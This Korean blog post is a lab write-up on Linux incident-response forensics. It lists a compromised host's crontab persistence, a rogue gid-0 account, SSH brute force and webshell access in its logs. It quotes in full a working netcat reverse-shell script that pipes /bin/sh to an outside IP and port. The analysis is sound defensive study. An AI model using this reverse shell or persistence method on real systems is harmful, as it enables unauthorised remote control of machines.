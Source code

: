 ```yaml
---
layout : post
title : 침해사고분석 - Linux
---
```


### Linux Image Dump

> ex) dd if=/dev/sda of=/mnt/hgfs/LinuxImage/linux.dd

### 실습

>**Victim IP**
>
>192.168.171.188
>
><br>
>
>**crontab**
>
>/tmp/wow64.sh 쉘 스크립트 실행 등록
>
><br>
>
>**wow64.sh**
>
>#!/bin/bash
>
>mknod /tmp/backpipe p
>
>/bin/sh 0</tmp/backpipe | nc 192.168.171.1 5555 1>/tmp/backpipe
>
><br>
>
>**/etc/passwd**
>
>infosechack 계정 root도 아닌데 gid가 0
>
><br>
>
>**/var/log/auth.log**
>
>Nov 1 21:32:20 192.168.171.146
>
>ssh brute force attack
>
>Nov 1 21:41:02 192.168.171.1
>
>1. Windows SSH Client로 SSH 접속
>2. root로 로그인 성공
>3. infosechack useradd 됨
>4. 로그아웃 후 infosechack으로 다시 ssh 접속
>
><br>
>
>**/var/log/access.log**
>
>Nov 1 21:19:16 192.168.171.146
>
>w3af 사용(웹앱 공격 툴)
>
>/morningmall/m_login_ok.php
>
>hydra 사용(brute force ) 
>
><br>
>
>**/var/log/apache2/access.log**
>
>Nov 1 23:29:02 192.168.171.1
>
>c99_madnet.php 접근(php webshell)